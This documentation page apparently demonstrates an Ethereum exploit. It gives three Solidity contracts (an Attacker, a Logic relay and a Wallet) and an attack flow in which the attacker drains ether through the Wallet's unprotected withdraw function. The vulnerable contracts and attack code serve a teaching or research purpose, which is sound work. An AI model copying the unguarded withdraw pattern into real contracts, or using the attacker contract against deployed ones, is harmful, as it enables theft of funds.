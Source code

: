########################
Exploits of Figure 1
########################

**Attack Flow**

Attacker -> Logic -> Wallet --trasfer ethers--> Attacker

**Attacker Contract**

.. code-block:: Solidity
    :linenos:

    contract Attacker {
        address addr_l;
        uint count=0;
        
        constructor ( address _addr ) payable
        {
            addr_l = _addr;
        }
        
        function someFun() public
        {
            count = count+1;
            if (count<5)
            {
                Logic(addr_l).logging(this,10);
            }
        }
        
        function () payable {}
        
        function setCount()
        {
            count = 0;
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
        
    }


**Logic Contract**

.. code-block:: Solidity
    :linenos:

    contract Logic{
        
        address private wallet;
        
        event changed(address _exec, uint  _value);
        
        function logging( address _exec, uint _value)  public
        {
            emit changed(_exec, _value );
            withdraw(_exec, _value);
        }
        
        function  withdraw( address _exec, uint _value) internal
        {
            Wallet(wallet).withdraw(_exec, _value);
        }
        
        constructor(  address _wallet ) payable {
            wallet = _wallet;
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }


**Wallet Contract**

.. code-block:: Solidity
    :linenos:

    contract Wallet {
        constructor() payable {}
        
        function withdraw( address _exec, uint _value) public
        {
            _exec.transfer(_value);
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }


**Running Screenshots**

.. image:: attack01.jpg
    :width: 600px
    :align: center